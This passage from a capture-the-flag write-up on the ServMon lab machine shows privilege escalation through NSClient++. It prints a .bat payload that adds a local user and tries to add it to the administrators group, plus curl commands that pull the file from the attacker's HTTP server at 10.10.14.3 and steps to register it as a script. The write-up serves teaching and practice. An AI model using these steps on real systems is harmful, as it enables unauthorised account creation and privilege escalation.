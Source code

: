 I'm going to create a malicious **.bat** file and transfer it to the victim machine, injecting the necessary commands that will create a **new account** and add it to the **administrators group**. Now I can return to the **NSClient++** dashboard and finish configuring the new malicious script. All I need to do is enter the absolute path where the file with the instructions that will allow me to **escalate privileges**, is stored. I save the changes I have made and reload the web application, in the **Queries** tab, I see that a new query has been generated. Finally, I use `net` to verify that the account has been created, but I have **not succeeded** in adding it to the **administrators group**.

> **Attacker Machine**:

```bash
nvim pwn3d.bat
cat !$
```

> **pwn3d.bat**:

```bat
@echo off
net user oldb0y oldboy123!$ /add
net localgroup "Administrator" oldb0y /add
```

```bash
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
curl http://10.10.14.3/pwn3d.bat -o pwn3d.bat

# c:/windows/temp/privesc/pwn3d.bat
# Changes --> Save configuration
# Control --> Reload
# Queries                               :)

net user
net user oldb0y
# :)
net localgroup
# :(
```

<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
